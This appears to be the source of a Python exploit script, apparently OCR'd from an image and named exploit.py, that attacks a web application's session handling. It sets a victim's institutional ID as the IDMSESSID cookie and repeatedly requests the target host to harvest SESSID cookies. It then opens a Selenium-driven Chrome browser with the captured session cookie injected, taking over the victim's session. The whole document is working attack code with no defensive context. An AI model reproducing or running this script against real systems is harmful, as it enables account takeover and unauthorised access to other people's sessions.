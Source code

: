 ```python
target_id = input("Please provide the ID, which in the case tested is the institutional ID: ")

cookies = {
    'IDMSESSID': target_id,
}

session = AsyncSession(n=requests_per_batch)

async def _main():
    final_sessid = ""
    os.system('cls' if os.name == 'nt' else 'clear')
    print("To quit press Enter")
    while True:
        rs = []

        for _ in range(requests_per_batch):
            rs.append(await session.get(target_host, cookies=cookies))

        for response in rs:
            for c in response.cookies:
                if (c.name == 'SESSID'):
                    print(c.name, c.value)
                    final_sessid = c.value

        if sys.stdin in select.select([sys.stdin], [], [], 0)[0]:
            line = input()
            break

    print("Last SESSID:", final_sessid)

    open_browser = input("Open a browser with this SESSID(y/n): ")
    if open_browser == "y":
    	"""
    	This feature requires a chromedriver for your operating system version. 
    	It can be found at https://sites.google.com/a/chromium.org/chromedriver/
    	Place it in the working directory of the exploit.py
    	"""
        browser = webdriver.Chrome(executable_path=os.path.join(os.getcwd(),"chromedriver"))

        browser.get(target_host)
        browser.add_cookie({
            "domain": target_host.split("/")[2],
            "name": "SESSID",
            "value": final_sessid,
            })
        browser.get(target_host)

        stay_open = input("Press enter to close")


session.run(_main)
```
